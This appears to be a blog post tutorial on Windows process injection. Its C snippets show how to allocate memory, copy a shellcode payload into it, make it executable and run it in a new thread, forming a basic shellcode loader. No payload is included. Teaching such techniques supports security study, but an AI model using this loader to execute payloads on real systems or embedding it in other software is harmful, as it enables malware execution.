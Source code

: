 ```yaml
---
layout: post
title:  "Process Injection Part 1"
---
```


### Executing payload locally using shellcode.

## Introduction

This method employs Windows APIs like VirtualAlloc, VirtualProtect and CreateThread. No evasion or obfuscation techniques are employed in this; it's simple and straightforward with no emphasis on evasion.

## Section 1: Getting Started

### Utilized functions from the Windows APIs
- VirtualAlloc: Reserves, commits, or changes the state of a region of pages in the virtual address space of the calling process

- RtlMoveMemory: Copies the contents of a source memory block to a destination memory block, and supports overlapping source and destination memory blocks.

- VirtualProtect: Changes the protection on a region of committed pages in the virtual address space of the calling process.

- CreateThread: Creates a thread to execute within the virtual address space of the calling process.

### Flow of the Program (key steps)

- Memory Allocation: A critical step involves reserving and committing memory for the payload using the VirtualAlloc function. The allocated memory, referred to as exec_mem, is initially set to read and write.

```c
void *exec_mem;
BOOL rv;
HANDLE th;
DWORD oldprotect = 0;
exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);```

- Copy Payload: The payload is then copied to the newly allocated buffer using the RtlMoveMemory function. This sets the stage for the actual execution.

```c 
 RtlMoveMemory(exec_mem, payload, payload_len); ```

- Memory Protection: To enable execution, the protection of the allocated memory is adjusted using VirtualProtect. The memory is now set to be executable and readable, paving the way for the payload's execution.

```c // Make new buffer as executable
rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);
```

- Thread Creation: Assuming successful memory protection, a new thread (th) is spawned using CreateThread. The thread is tasked with executing the code residing at the address pointed to by exec_mem. To maintain control flow and observe the execution, the program waits for the created thread to finish using WaitForSingleObject.

```c 
if (rv != 0) {
th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
WaitForSingleObject(th, -1);} ```

<iframe width="853" height="480" src="https://www.youtube.com/embed/bW3VQhcYu5A" title="Process Injection 01 - Executing payload locally using shellcode." frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>



